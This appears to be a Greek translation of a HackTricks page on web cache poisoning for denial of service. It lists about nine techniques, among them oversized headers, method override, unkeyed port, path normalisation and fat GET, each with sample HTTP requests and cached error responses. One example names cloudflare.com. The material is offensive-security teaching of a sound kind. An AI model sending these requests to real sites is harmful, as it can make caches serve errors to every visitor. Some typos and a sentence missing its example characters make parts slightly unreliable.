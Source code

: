 # Cache Poisoning to DoS

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

{% hint style="danger" %}
Σε αυτή τη σελίδα μπορείτε να βρείτε διάφορες παραλλαγές για να προσπαθήσετε να κάνετε τον **web server να απαντήσει με σφάλματα** σε αιτήματα που είναι **έγκυρα για τους cache servers**
{% endhint %}

* **HTTP Header Oversize (HHO)**

Στείλτε ένα αίτημα με μέγεθος κεφαλίδας μεγαλύτερο από αυτό που υποστηρίζει ο web server αλλά μικρότερο από αυτό που υποστηρίζει ο cache server. Ο web server θα απαντήσει με μια 400 απάντηση που μπορεί να αποθηκευτεί στην cache:
```
GET / HTTP/1.1
Host: redacted.com
X-Oversize-Hedear:Big-Value-000000000000000
```
* **HTTP Meta Character (HMC) & Unexpected values**

Στείλτε μια κεφαλίδα που περιέχει μερικούς **βλαβερούς μεταχαρακτήρες** όπως και . Για να λειτουργήσει η επίθεση, πρέπει πρώτα να παρακάμψετε την κρυφή μνήμη.
```
GET / HTTP/1.1
Host: redacted.com
X-Meta-Hedear:Bad Chars\n \r
```
Ένας κακώς διαμορφωμένος τίτλος θα μπορούσε να είναι απλώς `\:` ως τίτλος.

Αυτό θα μπορούσε επίσης να λειτουργήσει αν σταλούν απροσδόκητες τιμές, όπως μια απροσδόκητη Content-Type:
```
GET /anas/repos HTTP/2
Host: redacted.com
Content-Type: HelloWorld
```
* **Unkeyed header**

Ορισμένες ιστοσελίδες θα επιστρέψουν έναν κωδικό κατάστασης σφάλματος αν **δουν ορισμένα συγκεκριμένα headers** στην αίτηση όπως με το _X-Amz-Website-Location-Redirect: someThing_ header:
```
GET /app.js HTTP/2
Host: redacted.com
X-Amz-Website-Location-Redirect: someThing

HTTP/2 403 Forbidden
Cache: hit

Invalid Header
```
* **HTTP Method Override Attack (HMO)**

Αν ο διακομιστής υποστηρίζει την αλλαγή της μεθόδου HTTP με κεφαλίδες όπως `X-HTTP-Method-Override`, `X-HTTP-Method` ή `X-Method-Override`. Είναι δυνατόν να ζητηθεί μια έγκυρη σελίδα αλλάζοντας τη μέθοδο έτσι ώστε ο διακομιστής να μην την υποστηρίζει, με αποτέλεσμα μια κακή απάντηση να αποθηκευτεί στην cache:
```
GET /blogs HTTP/1.1
Host: redacted.com
HTTP-Method-Override: POST
```
* **Unkeyed Port**

Αν η θύρα στην κεφαλίδα Host αντικατοπτρίζεται στην απόκριση και δεν περιλαμβάνεται στο κλειδί της μνήμης cache, είναι δυνατόν να την ανακατευθύνουμε σε μια μη χρησιμοποιούμενη θύρα:
```
GET /index.html HTTP/1.1
Host: redacted.com:1

HTTP/1.1 301 Moved Permanently
Location: https://redacted.com:1/en/index.html
Cache: miss
```
* **Long Redirect DoS**

Όπως στο παρακάτω παράδειγμα, το x δεν αποθηκεύεται στην κρυφή μνήμη, οπότε ένας επιτιθέμενος θα μπορούσε να εκμεταλλευτεί τη συμπεριφορά της απόκρισης ανακατεύθυνσης για να κάνει την ανακατεύθυνση να στείλει μια διεύθυνση URL τόσο μεγάλη που να επιστρέφει ένα σφάλμα. Στη συνέχεια, οι άνθρωποι που προσπαθούν να αποκτήσουν πρόσβαση στη διεύθυνση URL χωρίς το uncached x key θα λάβουν την απόκριση σφάλματος:
```
GET /login?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 301 Moved Permanently
Location: /login/?x=veryLongUrl
Cache: hit

GET /login/?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 414 Request-URI Too Large
CF-Cache-Status: miss
```
* **Κανονικοποίηση πεζών χαρακτήρων της κεφαλίδας host**

Η κεφαλίδα host θα πρέπει να είναι ανεξάρτητη από την περίπτωση, αλλά ορισμένες ιστοσελίδες αναμένουν να είναι σε πεζά γράμματα επιστρέφοντας σφάλμα αν δεν είναι:
```
GET /img.png HTTP/1.1
Host: Cdn.redacted.com

HTTP/1.1 404 Not Found
Cache:miss

Not Found
```
* **Κανονικοποίηση διαδρομής**

Ορισμένες σελίδες θα επιστρέψουν κωδικούς σφάλματος στέλνοντας δεδομένα URLencode στη διαδρομή, ωστόσο, ο διακομιστής cache θα URLdecode τη διαδρομή και θα αποθηκεύσει την απόκριση για τη URLdecoded διαδρομή:
```
GET /api/v1%2e1/user HTTP/1.1
Host: redacted.com


HTTP/1.1 404 Not Found
Cach:miss

Not Found
```
* **Fat Get**

Ορισμένοι διακομιστές cache, όπως η Cloudflare, ή διακομιστές ιστού, σταματούν τα αιτήματα GET με σώμα, οπότε αυτό θα μπορούσε να εκμεταλλευτεί για να αποθηκεύσει μια μη έγκυρη απάντηση:
```
GET /index.html HTTP/2
Host: redacted.com
Content-Length: 3

xyz


HTTP/2 403 Forbidden
Cache: hit
```
## Αναφορές

* [https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52](https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52)
* [https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------](https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------)

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
